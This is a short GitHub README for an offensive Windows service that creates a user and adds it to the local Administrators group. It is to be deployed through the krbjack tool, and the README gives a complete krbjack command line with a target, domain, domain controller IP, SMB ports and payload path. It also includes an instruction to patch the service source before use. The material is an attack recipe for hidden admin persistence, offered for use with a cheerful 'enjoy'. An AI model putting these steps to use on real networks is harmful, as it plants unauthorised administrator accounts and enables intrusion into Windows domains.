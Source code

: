 # svcadduserAdmin
Simple service that creates a new user and adds it in localgroup Administrators


I used it with https://github.com/almandin/krbjack

usage:
'''
![image](https://github.com/foxlox/svcadduserAdmin/assets/28823598/ba3fb701-4446-4a6d-9dae-d3ab5cc3f7f7)
'''

edit the source file in the picture at line 57 and replace:
str(uuid etc) with 'service1'


then run
python3 -m krbjack --target-name winattacker --domain bluelab.local --dc-ip 172.27.18.19 --ports 139,445 --executable /opt/service1.exe

kaliattacker: victim


enjoy

